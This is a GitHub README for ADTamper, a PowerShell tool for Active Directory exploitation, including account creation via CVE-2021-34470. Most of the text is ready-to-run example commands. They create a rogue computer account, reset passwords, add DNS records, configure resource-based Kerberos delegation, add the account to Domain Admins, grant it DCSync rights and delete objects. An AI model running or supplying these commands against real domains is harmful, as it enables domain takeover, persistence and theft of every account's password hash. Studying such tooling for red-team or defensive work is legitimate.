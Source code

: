 # ADTamper

ADTamper is a PowerShell tool for Active Directory exploitation.

## Functions

```
New-UserAccount                 -   creates a new user account in a given Active Directory domain
New-ComputerAccount             -   creates a new computer account in a given Active Directory domain
New-RogueAccount                -   creates a new Active Directory account (user or computer) by exploiting CVE-2021-34470
New-DomainDnsRecord             -   creates a new DNS record in a given Active Directory domain
Set-UserPassword                -   modifies the password of a given Active Directory account
Set-KerberosDelegation          -   adds or removes a Kerberos delegation for a given Active Directory account
Set-LdapObject                  -   modifies properties for a given Active Directory object (e.g. members of a group)
Set-LdapObjectOwner             -   modifies the owner for a given Active Directory object
Set-LdapObjectAcl               -   adds or removes an ACL for a given Active Directory object
Remove-LdapObject               -   removes a given Active Directory object
```

## Examples

* Create a domain computer account:

```
New-ComputerAccount -SamAccountName 'testcomputer$' -Password 'P@ssw0rd'
```

* Reset the password of a domain account:

```
Set-UserPassword -SamAccountName 'testcomputer$' -NewPassword 'Str0ngP@ssw0rd' -Reset
```

* Add a DNS record to an Active Directory-Integrated DNS (ADIDNS) zone:

```
New-DomainDnsRecord -RecordType A -Name 'testcomputer' -ZoneName 'adatum.corp' -Data '192.168.1.200'
```

* Configure a Kerberos Resource-Based Delegation for a domain account that is going to be allowed to delegate authentication on an targeted system:

```
Set-KerberosDelegation -SamAccountName 'testcomputer$' -RBCD -TargetDN 'CN=WS10,CN=Computers,DC=ADATUM,DC=CORP' -Operation Add
```

* Add a domain account to an existing domain group:

```
Set-LdapObject -DistinguishedName 'CN=Domain Admins,CN=Users,DC=ADATUM,DC=CORP' -Properties @{member='CN=testcomputer,CN=Computers,DC=ADATUM,DC=CORP'} -Operation Add
```

* Assign 'DCSync' extended rights to a domain account:

```
$sid = (New-Object Security.Principal.SecurityIdentifier (Get-LdapObject -Filter '(sAMAccountName=testcomputer$)').objectSid,0).Value
Set-LdapObjectAcl -DistinguishedName "DC=ADATUM,DC=CORP" -PrincipalSID $sid -Rights DCSync -Operation Add
```

* Delete a domain account:

```
Remove-LdapObject -DistinguishedName 'CN=testcomputer,CN=Computers,DC=ADATUM,DC=CORP'
```
